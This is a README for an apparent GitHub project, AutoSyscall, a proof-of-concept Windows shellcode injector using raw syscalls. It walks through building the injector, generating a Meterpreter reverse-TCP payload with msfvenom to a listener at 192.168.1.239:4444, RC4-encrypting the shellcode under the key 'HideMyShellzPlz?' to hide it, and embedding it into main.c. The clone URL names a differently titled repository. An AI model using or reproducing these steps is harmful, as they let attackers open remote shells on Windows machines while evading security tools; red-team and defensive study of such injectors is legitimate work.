 # AutoSyscall

![Screenshot](https://raw.githubusercontent.com/blitztide/AutoSyscall/Images/AutoSyscall.png)

This library builds and makes a shellcode injector for all versions of Windows using raw syscalls.

This code is a PoC and has only been tested windows 10 x64 version 1909, this is because of the syscall numbers changing between versions, the values can be found [here](https://j00ru.vexillium.org/syscalls/nt/64/).

## Install & Build

```
git clone https://github.com/bats3c/DefensiveInjector
cd DefensiveInjector
python generate.py
make _XP_SP2
make injector
```
The _XP_SP2 value is the define string for the shellcode.asm file, this will target specific versions of windows.

## Using different shellcode

- ##### Generate your shellcode either with msfvenom or something else
    `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.239 LPORT=4444 -f raw -o meter.bin`

- ##### Encrypt the shellcode
    Keeping in mind that if you change it here you will need to update the key on line 132 in `main.c`
    `cat meter.bin | openssl enc -rc4 -nosalt -k "HideMyShellzPlz?" > encmeter.bin`

- ##### Format the shellcode
    Run `xxd -i encmeter.bin` then replace everything between line 10-60 with the output

## Dependencies

```
sudo apt install mingw-w64 nasm python
```
